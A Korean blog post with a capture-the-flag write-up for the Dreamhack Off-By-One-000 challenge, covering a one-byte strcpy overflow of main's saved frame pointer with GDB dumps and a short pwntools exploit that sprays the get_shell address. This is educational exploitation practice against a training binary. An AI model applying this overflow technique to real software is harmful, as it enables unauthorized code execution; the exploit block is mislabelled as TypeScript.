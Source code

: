```yaml
---
layout: post
subtitle: Off-By-One-000
comment: true
tags: [CTF, pwn]
---
```


# [문제](https://dreamhack.io/wargame/challenges/9/writeups)

`strcpy`는 몇바이트까지 복사하라는 말 없이 널문자열을 만날때 까지 복사합니다. <br/>`cpy`함수 내의 버퍼가 256바이트 길이이고 복사된 문자열은 `256개의 char` + `\x00`이므로 1byte 오버플로가 납니다.
오버플로가 나는 위치는 main의 `SFP`입니다.

## GDB
```
EBP: 0xffffcf20 --> 0xffffcf28 --> 0x0 
ESP: 0xffffcf20 --> 0xffffcf28 --> 0x0 
EIP: 0x804864f (<cpy+3>:        sub    esp,0x100)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804864b <initialize+70>:   ret    
   0x804864c <cpy>:     push   ebp
   0x804864d <cpy+1>:   mov    ebp,esp
=> 0x804864f <cpy+3>:   sub    esp,0x100
   0x8048655 <cpy+9>:   push   0x804a060
   0x804865a <cpy+14>:  lea    eax,[ebp-0x100]
   0x8048660 <cpy+20>:  push   eax
   0x8048661 <cpy+21>:  call   0x8048470 <strcpy@plt>
[------------------------------------stack-------------------------------------]
0000| 0xffffcf20 --> 0xffffcf28 --> 0x0 
0004| 0xffffcf24 --> 0x804869e (<main+46>:      push   0x804a060)
0008| 0xffffcf28 --> 0x0 
0012| 0xffffcf2c --> 0xf7e00e91 (<__libc_start_main+241>:       add    esp,0x10)
```
`strcpy`의 실행 전 `cpy`의 스텍프레임 내에서 `SFP`가 `0xffffcf28`인 모습

---

```
EBP: 0xffffcf20 --> 0xffffcf00 --> 0x80485db (<get_shell>:      push   ebp)
```
`strcpy`실행 후 `SFP`가 `0xffffcf00`가 된 모습

여기서 main의 에필로그 상에서 `leave`가 실행될 때 `esp`는 `0xffffcf00`근처를 가리킨다.<br/>
따라서 `ret`또한 이 근처에 있을 가능성이 높다. 이에 따라서 페이로드를 `p32(get_shell_addr)*64`의 256바이트 문자열로 설정하는게 이론상 바람직하다.

---
## 유의점
`Ubuntu 18.04`기준 
```
GNU gdb (Ubuntu 8.1-0ubuntu3.2) 8.1.0.20180409-git
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
```
위 `GDB`버젼에서는 제대로 실습하지 못한다.
`GDB`로 돌렸더니 `cpy`이후 `printf`를 처리하는 과정에서 `cpy`에서 우리가 덮어놓은 버퍼가 오염되는 문제가 발생한다. <br/>
하지만 `pwntools`로 직접 바이너리를 실행하면 이 문제가 발생하지 않기 때문에 문제를 푸는데는 지장이 없다.

---
## Exploit code

```ts
from pwn import*
p = process("./off_by_one_000")
// 제출시에는 remote에 hostname과 포트번호를 넣어주면 된다.
get_shell = 0x80485db
payload = p32(get_shell)*64 
p.sendline(payload)
p.interactive()
```
오염된 `SFP`근처에 목표`RET`가 있으므로 페이로드를 전부 `get_shell`주소로 하면 정답 확률이 높다.
